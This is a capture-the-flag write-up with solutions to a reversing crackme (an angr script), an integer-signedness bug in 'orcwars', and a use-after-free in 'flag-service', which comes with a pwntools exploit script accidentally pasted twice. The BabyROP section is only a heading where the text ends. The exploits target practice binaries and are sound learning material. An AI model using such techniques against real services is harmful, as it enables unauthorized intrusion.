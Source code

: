## Table of Contents
- [rev/easy-crackme](#reveasy-crackme)
- [pwn/orcwars](#pwnorcwars)
- [pwn/flag-service](#pwnflag-service)
- [pwn/babyrop](#pwnbabyrop)

## Rev/Easy-Crackme

![image](https://github.com/user-attachments/assets/0bb9c9fc-0c5f-4733-82f8-96ef33e8e61a)

Looking at the decompilation in Ghidra, we can just reassemble the flag from local_78 to local_4f but I decided to use angr to solve it.

```py
import angr
import claripy

FLAG_LEN = 42# Provide flag length
STDIN_FD = 0
base_addr = 0x00100000

proj = angr.Project("./easy_crackme", main_opts={'base_addr': base_addr})

flag_chars = [claripy.BVS(f"flag_{i}", 8) for i in range(FLAG_LEN)]                                               

flag = claripy.Concat( *flag_chars + [claripy.BVV(b'\n')])  # so that stdin works by adding \n to the end

state = proj.factory.entry_state(stdin=flag)

for c in flag_chars:					# make sure only printable characters
	state.solver.add(c >= ord('!'))
	state.solver.add(c <= ord('~'))

my_simgr = proj.factory.simgr(state)
find_addr = 0x00101435
avoid_addr = 0x0010145a 
my_simgr.explore(find=find_addr, avoid=avoid_addr)

if (len(my_simgr.found) > 0): # If a found state exists
	for found in my_simgr.found:
		print(found.posix.dumps(STDIN_FD)) # Print out the input
```

![image](https://github.com/user-attachments/assets/dd8c6a01-e80e-4f25-ab30-54c1e2fad345)

## :drop_of_blood: Pwn/Orcwars

![image](https://github.com/user-attachments/assets/21264960-b2c2-461c-91eb-f2ebbe3cfa66)

We are presented with a menu based game where we need to get more troops than the enemy

![image](https://github.com/user-attachments/assets/f8699ce3-687a-4789-bd29-237626d15822)

Our total troops must be at least 0x22a to get the flag.

![image](https://github.com/user-attachments/assets/6b8eeebf-0b8d-492b-9987-9bd50448e129)

The problem lies in the line `if ((int)local_34 < (int)(uVar5 * 100)) {`. The variable uVar5 is declared as an unsigned integer but is being casted to an integer. Hence, we can give a large number of mercenaries. After multiplying by 100, it should result in a negative number due to how integer works.

![image](https://github.com/user-attachments/assets/8903b488-c489-436b-84a8-cd229f4b0bd8)

Enter 1.1 billion

![image](https://github.com/user-attachments/assets/67e7ef6a-00e7-436b-b3aa-f8d4b575d062)

Fake flag because the remote server is not active anymore, so I just ran this locally.

## Pwn/Flag-service

![image](https://github.com/user-attachments/assets/f717f137-9dee-48e0-929d-40b98517fa8a)

Another menu type challenge.

<details>
<summary>Decompiled Code</summary>

```c
    switch(uVar3) {
    case 0:
      puts("not a valid input\n");
      break;
    case 1:
      puts("enter your name :");
      if (local_20 != (undefined8 *)0x0) {
        free(local_20);
      }
      local_20 = (undefined8 *)malloc(0x10);
      puVar4 = (undefined8 *)fgets((char *)local_20,0x10,stdin);
      if (puVar4 == local_20) {
        sVar5 = strlen((char *)local_20);
        *(undefined *)((long)local_20 + (sVar5 - 1)) = 0;
      }
      else {
        puts("error with name !");
        *local_20 = 0x6e776f6e6b6e75;
      }
      break;
    case 2:
      puts("how many flags do you want ? \n(100$ per flag, max 9999 flags)");
      nbflag = get_int_input(1,9999);
      if (!deleted) {
        free(order);
      }
      order = (uint *)malloc(8);
      order[1] = nbflag;
      *order = nbflag * 100;
      printf("you want %d flags, which will cost %d$\n",(ulong)nbflag,(ulong)(nbflag * 100));
      deleted = false;
      fflush(stdin);
      break;
    case 3:
      if (deleted) {
        puts("you don\'t have any order to delete");
      }
      else {
        order[1] = 0;
        *order = 999;
        free(order);
        deleted = true;
        puts("you deleted your order !");
      }
      break;
    case 4:
      if (((int)*order < 0) || ((int)money < (int)*order)) {
        puts("you don\'t have enough money to buy those flags !");
      }
      else {
        money = money - *order;
        flags = order[1];
        puts("you successfully bought the flag !");
        printf("you now have %d flags\n",(ulong)flags);
      }
      if (0 < (int)flags) {
        print_flag();
        bVar2 = false;
      }
      break;
    case 5:
      puts("Bye !");
      bVar2 = false;
      break;
```

</details>

There is a Use-After-Free (UAF) vulnerability in option 3 when deleting an order. After freeing the chunk, the order variable is not set to NULL so the pointer to the freed chunk is still able to be used. Another thing to keep in mind is that malloc(0x8) and malloc(0x10) will return the same sized chunk because the minimum size for a heap chunk is 0x10 bytes (excluding metadata). Hence, the steps of our attack will be as follows

- Create an order chunk
- Delete that order chunk
- Allocate the name chunk, the contents of this chunk will reflect your order chunk. Hence, just make the price of the flag to become $1
- Profit

<details>
<summary>Solve Script</summary>

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./flag_service')
libc = exe.libc

host = "flag-service.warzone-challenges.com"
port = 1339

gdb_script = '''

'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

p = exe.process()
# p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

sla(b"exit\n", "2")
sl("1")
sla(b"exit\n", "3")
sla(b"exit\n", "1")
sl(p32(1) + p32(1))
sla(b"exit\n", "4")

p.interactive()#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./flag_service')
libc = exe.libc

host = "flag-service.warzone-challenges.com"
port = 1339

gdb_script = '''

'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

p = exe.process()
# p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

sla(b"exit\n", "2")
sl("1")
sla(b"exit\n", "3")
sla(b"exit\n", "1")
sl(p32(1) + p32(1))
sla(b"exit\n", "4")

p.interactive()
```

</details>

![image](https://github.com/user-attachments/assets/93cbac59-c515-4e0d-99f8-18d7dc772f94)

## Pwn/BabyROP
